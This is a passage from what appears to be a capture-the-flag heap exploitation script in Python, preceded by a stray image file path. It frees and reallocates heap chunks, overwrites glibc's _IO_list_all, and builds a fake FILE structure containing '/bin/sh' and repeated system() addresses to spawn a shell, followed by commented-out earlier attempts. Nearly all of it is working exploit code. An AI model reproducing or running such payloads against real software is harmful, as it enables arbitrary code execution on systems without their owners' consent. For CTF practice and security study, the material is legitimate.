 		add(0xe0,payload,'b\n')		#16
	
		delete(15)
		delete(16)
	
		IO_list_all = libc.symbols['_IO_list_all']
	
		payload = '\x00'*0x5c + p32(0xe9) + p32(0) + p32(IO_list_all-0x8)
		add(0x90,payload,'b\n')
	
		one_gadget = libc.address + 0x5f066
		payload = '\x00'*0x30
		payload += '/bin/sh\0' + p32(0) + p32(0)
		payload += p32(0) + p32(1) + p32(1)
		payload += p32(0)*7
		payload += p32(3) + p32(0) + p32(0xffffffff) + p32(0) + p32(heap_base+0x400)
		payload += p32(0xffffffff)*2 + p32(0) + p32(heap_base+0x500)
		payload += p32(0)*3 + p32(0xffffffff) + p32(0)*10
		payload += p32(heap_base+0x310)
		payload += p32(system_addr)*5
	
		add(0xe0,payload,'b\n')
	
		delete(0)
		# delete(12)
	
		# for i in range(20):
		# 	add(8,'a','b\n')
		# for i in range(8,28):
		# 	delete(i)
		# print('aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\n')
		
	
		# #global_max_fast = libc.address + 0x1b18e0
		
		# IO_list_all = libc.symbols['_IO_list_all']
		# add(8,'a','b\n')		#4
		# add(8,'a','b\n')		#5
		# add(0x48,'a','b\n')		#6
		# add(8,'a','b\n')		#7
	